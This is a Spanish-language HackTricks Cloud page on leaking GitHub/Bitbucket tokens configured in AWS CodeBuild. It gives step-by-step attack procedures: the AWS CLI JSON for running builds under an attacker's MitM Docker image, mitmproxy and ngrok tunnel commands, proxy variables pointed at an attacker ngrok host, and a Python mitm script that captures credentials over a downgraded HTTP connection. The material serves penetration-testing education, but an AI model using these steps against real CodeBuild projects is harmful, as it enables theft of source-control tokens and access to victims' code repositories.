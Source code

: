 # AWS Codebuild - Fuga de Tokens

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop).
* Obtén [**productos oficiales de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## Recuperar Tokens Configurados de Github/Bitbucket

### A través de la imagen Docker

Si descubres que la autenticación, por ejemplo, a Github está configurada en la cuenta, puedes **filtrar** ese **acceso** (**token GH o token OAuth**) haciendo que Codebuild **utilice una imagen Docker específica** para ejecutar la compilación del proyecto.

Para ello, podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para configurar la **imagen Docker**.

La imagen Docker que podrías utilizar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen Docker muy básica que establecerá las variables de entorno `https_proxy`, `http_proxy` y `SSL_CERT_FILE`. Esto te permitirá interceptar la mayoría del tráfico del host indicado en `https_proxy` y `http_proxy`, y confiar en el CERT SSL indicado en `SSL_CERT_FILE`.

1. **Crea y carga tu propia imagen Docker MitM**
* Sigue las instrucciones del repositorio para configurar la dirección IP de tu proxy y establecer tu certificado SSL y **compila la imagen Docker**.
* **NO ESTABLEZCAS `http_proxy`** para no interceptar las solicitudes al punto de conexión de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para configurar el proxy en tu host.
* Una vez que hayas compilado la imagen Docker, **cárgala en un repositorio público** (Dockerhub, ECR...).
2. **Configura el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para que utilice la **imagen Docker generada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Configura el proxy MitM en tu host**
* Como se indica en el **repositorio de Github**, podrías usar algo como: `mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`.
4. **Ejecuta la compilación y captura las credenciales**
* Puedes ver el token en el encabezado de autorización:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Esto también se puede hacer desde la CLI de AWS con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER",
"image": "docker.io/carlospolop/docker-mitm:v6",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
},
"serviceRole": "arn-service-role"
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### A través del protocolo HTTP

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Por lo tanto, un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o, si los permisos se configuraron a través de OAuth, el **token OAuth temporal utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto de CodeBuild apuntando a su máquina (por ejemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de Github para usar HTTP en lugar de HTTPS, por ejemplo: **http://**github.com/carlospolop-forks/TestActions
* Luego, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** se enviarán en texto claro (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y abusar de ellos más fácilmente que usando el servicio CodeBuild directamente.
{% endhint %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**merchandising oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
